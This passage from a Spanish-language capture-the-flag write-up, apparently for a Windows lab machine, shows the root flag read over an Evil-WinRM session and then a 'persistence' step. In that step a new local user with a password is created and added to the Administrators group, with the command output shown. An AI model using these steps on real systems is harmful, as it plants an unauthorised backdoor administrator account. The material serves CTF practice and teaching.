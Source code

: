 Sacamos la Flag de `Root.txt`
```bash
*Evil-WinRM* PS C:\Users\Administrator\Documents> type ../Desktop/root.txt
b19c3794f786a1fdxxxxxxxxxxxxxxxx
```

# Persistencia a nivel de Equipo una Vez logrado ser Administrador

Forma 1 -- Crear un nuevo usuario y hacerlo administrador 
```bash
*Evil-WinRM* PS C:\Users\Administrator\Documents> net user paco paco123$ /add
The command completed successfully.

*Evil-WinRM* PS C:\Users\Administrator\Documents> net localgroup paco administrators /add
net.exe : System error 1376 has occurred.
    + CategoryInfo          : NotSpecified: (System error 1376 has occurred.:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError

The specified local group does not exist.

*Evil-WinRM* PS C:\Users\Administrator\Documents> Add-LocalGroupMember -Group "Administrators" -Member "paco"
*Evil-WinRM* PS C:\Users\Administrator\Documents> net user paco
User name                    paco
Full Name
Comment
Users comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            1/26/2022 7:38:06 PM
Password expires             3/9/2022 7:38:06 PM
Password changeable          1/27/2022 7:38:06 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   Never

Logon hours allowed          All

Local Group Memberships      "*Administrators"       *Users
Global Group memberships     *None
The command completed successfully.
```

